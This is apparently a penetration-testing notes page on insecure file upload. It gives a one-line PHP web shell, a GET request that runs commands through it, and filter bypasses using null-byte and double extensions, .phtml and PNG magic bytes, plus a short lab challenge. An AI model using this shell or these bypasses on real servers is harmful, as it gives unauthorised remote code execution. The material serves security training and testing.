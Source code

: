 # Insecure File Upload

### Insecure File Upload - Introduction

When testing file uploads look for code execution, overwriting existing files, and DoS

### Insecure File Upload - Basic Bypass

Check file upload functionality, determine where the content filtering happens

Find where the files are stored by fuzzing with gobuster, ffuf, wfuzz, etc.

Simple PHP shell `<?php system($_GET['cmd']); ?>`

Send a GET request to target_ip/upload_folder/cmd.php?cmd=whoami

### Insecure File Upload - Magic Bytes

Bypass filtering with null bytes (only works on older web servers) 

`logo.php%00.png`

Adding a second, valid file extension can allow the shell to be executed 

`logo.php.png`

Look into htaccess upload https://thibaud-robin.fr/articles/bypass-filter-upload/

### Insecure File Upload - Challenge

Bypass client side filter by editing request in Burp suite

Bypass server side magic byte filter by using a PNG magic byte

Bypass extension filtering with .phtml instead of php

![Bypass filters](./pictures/insecure-file-upload-challenge.png)

![RCE](./pictures/insecure-file-upload-challenge-whoami.png)

**Walkthrough**

Same as above
